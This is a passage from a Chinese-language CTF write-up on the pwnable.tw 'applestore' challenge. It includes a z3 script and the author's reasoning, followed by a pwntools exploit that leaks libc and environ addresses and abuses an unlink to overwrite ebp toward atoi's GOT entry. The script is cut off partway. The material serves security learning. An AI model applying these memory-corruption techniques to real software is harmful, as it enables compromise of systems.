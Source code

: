 ```py
from z3 import *
s=Solver()
x=Int('x')
y=Int('y')
z=Int('z')
m=Int('m')
s.add(x>=0)
s.add(y>=0)
s.add(z>=0)
s.add(m>=0)
s.add(x*199+y*299+z*499+m*399==0x1c06)
if s.check()==sat:
    print(s.model())
```
然后调试发现，local_24的地址在调用cart时的next字段正好指向handler里接收用户输入的buffer。借此可以泄漏libc地址

不知道怎么执行下一步了。unlink操作看起来可以将某个函数的got表写为system，但副作用是system周围也会被写入，而函数所在的内存肯定是不可写的，程序会炸掉。那往栈上考虑吧，去environ拿栈地址。结果我发现environ的栈地址与任何函数的栈帧的偏移都不是固定的……想了很久仍然不知道还有什么方法，放弃了

今天看 https://blog.srikavin.me/posts/pwnable-tw-applestore 时发现和我的思路差不多？为什么这里泄漏的environ和delete函数的ebp偏移固定？我把脚本拿下来打远程，成功了；但本地却无法成功，gdb调试发现偏移仍然是不固定的

所以一定要用docker啊！
```py
from pwn import *
exe_path = './applestore_patched'
exe=ELF(exe_path)
libc=ELF("./libc_32.so.6")
p=remote("chall.pwnable.tw",10104)
def select(value,option):
    if value=='':
        p.sendlineafter("> ",option)
    else:
        p.sendafter("> ",value)
def add(device):
    p.sendlineafter("> ",'2')
    p.sendlineafter("> ",str(device))
def checkout(value=''):
    select(value,'5')
    p.sendlineafter("> ",'y')
def cart(value='',prompt=''):
    select(value,'4')
    select(prompt,'y')
def delete(idx,value=''):
    select(value,'3')
    p.sendlineafter("Number> ",str(idx))
for i in range(10):
    add(1)
for i in range(2):
    add(3)
for i in range(14):
    add(2)
checkout()
cart(p32(0x804b034)+p32(0)*3) #atoi只要第一个字符是数字就好，后面的不是数字也不影响。0x804b034正好是一个以字符'4'结尾的got项
p.recvuntil("28: ")
libc.address=u32(p.recv(4))-0x18540
cart(prompt=b'yy'+p32(libc.sym['environ'])+p32(0)*2) #cart里还有一个提示用户输入的地方，这个地方的地址+2正好和上述的地址一样
#或者用覆盖next字段的方式泄漏也行，但这样泄漏的就不是environ的内容，而是environ指向的内容。不知道这样泄漏出来的地址在远程与ebp的偏移是否固定
p.recvuntil("27: ")
ebp=u32(p.recv(4))-260
delete(28,p32(0x804b033)+p32(0)+p32(ebp-0xc)+p32(exe.got['atoi']+0x22)) #触发unlink，让ebp为atoi的got表+0x22
'''
handler函数的输入变量位于ebp-0x22:
```